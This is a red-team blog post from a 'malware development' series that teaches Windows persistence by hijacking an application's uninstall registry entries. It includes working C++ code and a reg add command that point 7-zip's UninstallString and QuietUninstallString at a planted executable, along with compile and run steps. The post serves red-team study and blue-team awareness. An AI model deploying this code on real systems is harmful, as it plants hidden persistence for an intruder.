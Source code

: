 ```yaml
---
title:  "Malware development: persistence - part 13. Hijacking uninstall logic for application. Simple C++ example."
date:   2022-10-04 03:00:00 +0300
header:
  teaser: "/assets/images/73/2022-10-04_21-03_1.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/73/2022-10-04_21-03_1.png){:class="img-responsive"}    

This post is the result of my own research into one of the interesting malware persistence trick: via hijacking uninstall file for target application.     

### uninstallation process

When you install a program on a Windows system, they usually point to their own uninstallers. They are in the registry keys:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<application name>`    

and  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<application name>`     

So what is the trick? There is no problem with replacing them with commands that can run any other program. When a user executes the uninstaller, the command of the attacker's choosing is executed. Again, the good news is that privileges are required to modify these items, as they reside under the `HKLM` key.     

### practical example

Let's look at a practical example. Firstly, let's choose a target application. I chose `7-zip x64`:    

![pers](/assets/images/73/2022-10-04_20-13_1.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_20-15.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_20-15_1.png){:class="img-responsive"}    

Then, check registry key values, for correctness:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](/assets/images/73/2022-10-04_20-08.png){:class="img-responsive"}    

Also, I prepared my evil application. It's as usually `meow-meow` "malware" :)    

![pers](/assets/images/73/2022-10-04_20-10.png){:class="img-responsive"}    

Then, I create a program, which do my logic for persistence (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, we are just update target key values in registry.    

### demo

Let's go to see everything in action. Compile malware and persistence script:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/73/2022-10-04_20-09.png){:class="img-responsive"}    

And run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```

![pers](/assets/images/73/2022-10-04_20-59.png){:class="img-responsive"}    

Finally, after reboot my system, tried to uninstall `7-zip`:    

![pers](/assets/images/73/2022-10-04_20-13_1.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_20-15.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_21-01.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_21-03.png){:class="img-responsive"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

![pers](/assets/images/73/2022-10-04_21-05.png){:class="img-responsive"}    

as you can see the parent process is `SystemSettings.exe` - is what you see whenever you open your Windows settings. In our case, it is `add/remove programs`. Perfect! =^..^=    

There are the little caveat. When I try to update key with path `Z:\2022-10-04-malware-pers-13\hack.exe` I get an error like this:    

![pers](/assets/images/73/2022-10-05_17-37.png){:class="img-responsive"}    

Maybe you can use only paths inside the disk `C:\`.    

After end of the experiments, clean up:    

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /v "UninstallString" /t REG_SZ /d "C:\Program Files\7-zip\Uninstall.exe" /f
```

![pers](/assets/images/73/2022-10-05_17-50.png){:class="img-responsive"}    

### conclusion

Of course, maybe this trick is not so cool for persistence, since it requires the permissions and participation of the victim's user. But why not?    

There is one more trick with using installing and removing programs for persistence, I will write about it in one of the future posts. I'm still in the process of investigating this possibility for the red team.      

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/2022-10-04-malware-pers-13)     

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
